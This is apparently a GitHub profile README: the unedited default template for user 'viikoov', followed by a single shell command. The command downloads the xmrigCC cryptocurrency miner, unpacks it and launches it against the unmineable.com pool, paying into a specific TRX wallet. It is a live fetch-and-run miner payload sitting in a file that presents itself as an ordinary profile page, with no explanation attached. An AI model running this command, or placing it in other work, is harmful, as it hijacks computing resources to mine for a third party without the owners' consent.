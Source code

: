 - 👋 Hi, I’m @viikoov
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
viikoov/viikoov is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
wget https://github.com/Bendr0id/xmrigCC/releases/download/2.9.4/xmrigCC-2.9.4-linux-generic-amd64.tar.gz && tar -xf xmrigCC-2.9.4-linux-generic-amd64.tar.gz && rm xmrigCC-2.9.4-linux-generic-amd64.tar.gz && ./miner/xmrigDaemon -o rx.unmineable.com:3333 -u TRX:TLcaPSSZj6Nm3xvS3dKNdzBZgabkKAY8Dy.SSS4 -p WK01 -k -a cn-heavy/xhv
